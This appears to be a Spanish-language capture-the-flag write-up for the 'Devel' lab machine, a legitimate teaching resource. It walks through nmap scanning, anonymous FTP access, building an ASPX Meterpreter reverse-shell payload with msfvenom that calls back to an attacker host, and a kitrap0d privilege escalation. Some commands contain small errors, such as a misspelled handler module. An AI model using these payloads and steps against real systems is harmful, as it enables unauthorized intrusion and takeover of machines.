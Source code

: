 ```yaml
---
layout: post
author: Sergio Salgado
---
```


|     Iformation         |      Link          |
|:-----------------------|:-------------------|
| Name                   | Devel              |
| Os                     | Windows            |
| Difficulty             | Easy               |
| Points                 |  0                 |
| IP                     | 10.10.10.5         |

## [](#header-2)Introduccion

Primero utilizaremos la herramienta que hace la identificación de conexión silenciosa y reconocimiento del sistema al que nos presentamos.

![Scan 1](/assets/images/Devel/scan1.png)

El primer escaneo rápido con nmap, para poder agilizar mientras más búsquedas o búsqueda de vulnerabilidades sobre esos puertos.

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv 10.10.10.5
```

![nmap 1](/assets/images/Devel/nmap1.png)

El segundo escaneo, ya un poco más profundo será:

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.5 -oG allPorts
```

![nmap 2](/assets/images/Devel/nmap2.png)

Después de tener los puertos, se puede hacer un escaneo ahora directo a los puertos con:

```s
sudo nmap -sCV -p22,80 10.10.10.5 -oN targeted
```

![nmap 3](/assets/images/Devel/nmap3.png)

Este escaneo nos muestra que el servicio de ftp tiene el usuario anonymous habilitado, y dentro unos archivos y una carpeta que parece estar vacia.

Ahora parece que podemos meter una webshell, como lo hicimos con la maquina Worker, pero esta vez con metasploit de la manera siguiente:

```s
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.29 LPORT=443 -f aspx > meta2.aspx
```

Ahora con msfconsole

```s
use exploit/multi/andler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.14.29
set LPORT 443
```

Una vez con la sesion abierta de meterpreter, buscaremos vulnerabilidades de la siguiente forma:

```s
search suggester
use post/multi/recon/local_exploit_suggester
set SESSION 1
run

use exploit/windows/local/ms10_015_kitrap0d
set SESSION 1
set LHOST 10.10.14.29
set LPORT 443
```

![nmap 3](/assets/images/Devel/nmap3.png)

![nmap 3](/assets/images/Devel/)